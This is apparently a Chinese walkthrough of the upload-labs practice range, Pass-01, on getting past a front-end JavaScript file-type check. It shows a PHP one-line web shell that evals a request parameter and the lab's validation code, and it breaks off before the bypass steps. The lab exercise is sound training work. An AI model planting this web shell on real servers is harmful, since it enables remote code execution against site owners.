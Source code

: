 > [任意文件上传靶场upload-labs下载地址](https://github.com/c0ny1/upload-labs/releases)

### Pass-01- 前端JS校验绕过

尝试上传一句话木马

```php
<?php @eval($_REQUEST[6868])?>
```

![image-20230830130722553](./imgs/423c0add25ece31c6fbb27f076b71457.png)

**代码审计：**

```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```
